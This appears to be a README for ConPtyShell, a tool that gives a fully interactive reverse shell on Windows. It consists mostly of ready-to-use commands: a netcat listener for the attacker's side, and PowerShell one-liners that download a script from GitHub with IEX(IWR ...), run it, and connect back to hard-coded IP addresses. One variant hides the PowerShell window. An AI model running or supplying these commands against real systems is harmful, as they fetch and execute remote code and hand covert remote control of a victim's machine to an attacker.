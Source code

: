 
## Fully interactive reverse shell on Windows
The introduction of the Pseudo Console (ConPty) in Windows has improved so much the way Windows handles terminals.

**ConPtyShell uses the function [CreatePseudoConsole()](https://docs.microsoft.com/en-us/windows/console/createpseudoconsole). This function is available since Windows 10 / Windows Server 2019 version 1809 (build 10.0.17763).**


Server Side:

```
stty raw -echo; (stty size; cat) | nc -lvnp 3001
```

Client Side:

```hidden
start-process PowerShell.exe -windowstyle hidden "IEX(IWR https://raw.githubusercontent.com/khashino/tutorials/master/Hacks/Invoke-ConPtyShell.ps1 -UseBasicParsing); Invoke-ConPtyShell 192.168.137.6 3001"
```
```
IEX(IWR https://raw.githubusercontent.com/khashino/tutorials/master/Hacks/Invoke-ConPtyShell.ps1 -UseBasicParsing); Invoke-ConPtyShell 10.0.0.2 3001
```
```
IEX(IWR https://raw.githubusercontent.com/antonioCoco/ConPtyShell/master/Invoke-ConPtyShell.ps1 -UseBasicParsing); Invoke-ConPtyShell 10.0.0.2 3001
```

Offline version of the ps1 available at --> https://github.com/antonioCoco/ConPtyShell/blob/master/Invoke-ConPtyShell.ps1
